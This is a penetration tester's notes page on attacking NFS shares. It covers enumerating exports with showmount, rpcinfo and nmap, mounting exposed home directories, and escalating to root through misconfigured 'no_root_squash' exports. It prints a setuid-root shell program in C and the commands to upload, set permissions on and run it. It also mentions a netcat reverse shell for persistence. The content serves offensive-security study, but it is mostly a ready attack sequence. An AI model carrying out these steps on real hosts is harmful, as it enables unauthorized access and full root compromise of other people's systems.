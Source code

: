 # 🟨 NFS

## :ballot\_box\_with\_check: <mark style="color:blue;">Introduction</mark>

network File System (NFS) is a distributed file system protocol originally developed by Sun Microsystems in 1984. It allows a user on a client computer to access files over a computer network as if they were on locally-mounted storage. NFS is often used with UNIX operating systems and is predominantly insecure in its implementation. It can be somewhat difficult to set up securely, so it’s not uncommon to find NFS shares open to the world. This is quite convenient for us as penetration testers, as we might be able to leverage them to collect sensitive information, escalate our privileges, and so forth.

Both Portmapper and RPCbind run on TCP port 111. RPCbind maps RPC services to the ports on which they listen. RPC processes notify rpcbind when they start, registering the ports they are listening on and the RPC program numbers they expect to serve.

The client system then contacts rpcbind on the server with a particular RPC program number. The rpcbind service redirects the client to the proper port number (often TCP port 2049) so it can communicate with the requested service.

Please note that since NFS is an RPC-based service and relies on other RPC services, such as “mountd,” it should be directly queried via the Portmapper service which is found on port TCP and/or UDP 111 when using Nmap NSE scripts for instance.

An administrator wishing to share files from an NFS server will configure what are known as “exports.” Exports are the mechanism used by NFS in order to “export” directories, in other words, make entire directories available to other users over the network. Exports configured for any given NFS server can usually be found in the “/etc/exports” file on a target host locally. For now, we’re going to focus on identifying available exports from a remote perspective. One common issue with NFS, is that oftentimes administrators will configure exports with little attention to security, and will usually “export” directories in a manner that allows any host or IP address to connect, without any authentication, and if we’re lucky, also provide write-access to directories.

## <mark style="color:red;">find directories (shares)</mark>

```
showmount -e [ip]
```

after finding directories we can try to mount them to our system, for example lets say we found a directory shared with which is the home directory of user "bob":

```
mkdir -p /mnt/home/bob
mount -t nfs [NFS Server IP]:/home/bob /mnt/home/bob -o nolock
cd /mnt/home/bob && ls -al
```

if we find any directories we can mount the shared directory and access it:

```
mount -t nfs <NFS Server IP>:/home/bob /mnt/home/bob -o nolock
cd /mnt/home/bob && ls -al
```

## <mark style="color:red;">port map with rpcinfo</mark>

NFS can be identified by probing port 2049 directly or asking the portmapper for a list of services Portmapper (AKA rpcbind) is another common service found on Linux-based systems and is used to essentially “map” RPC (Open Network Computing Remote Procedure Call or “ONC RPC,” not to be confused with Microsoft’s implementation of RPC) services to their corresponding TCP or UDP ports on a target system.

{% hint style="info" %}
Querying a single port (TCP/111), essentially enumerates all related RPC-related service ports without us having to conduct a port scan against all those ports individually.
{% endhint %}

```
nmap --script rpc-grind,rpcinfo 192.168.13.26 –p 111
rpcinfo -p [ip]
```

#### we can use a “xinetd” RPC-based UDP service combined with a netcat reverse shell, and a “port knocking” method for persistence on a host once we have access.

there are possible privilege escalation methods if NFS service is available to us, refer to [this section](https://7h3w4lk3r.gitbook.io/the-hive/network-attacks/untitled/privilege-escalation/nfs) under linux privilege escalation.

## <mark style="color:red;">NFS Exported Shares</mark>

List NFS exported shares:

```
showmount -e 192.168.110.102
```

and check if 'rw,no\_root\_squash' is present. If it is present, compile the below sid-shell.c:

```c
#include <unistd.h>

main( int argc, char ** argv, char ** envp )
{
    setgid(0); setuid(0); system("/bin/bash", argv, envp);
    return 0;
}
```

upload it to the share and execute the below to launch sid-shell to spawn a root shell:

```
chown root:root sid-shell; chmod +s sid-shell; ./sid-shell
```
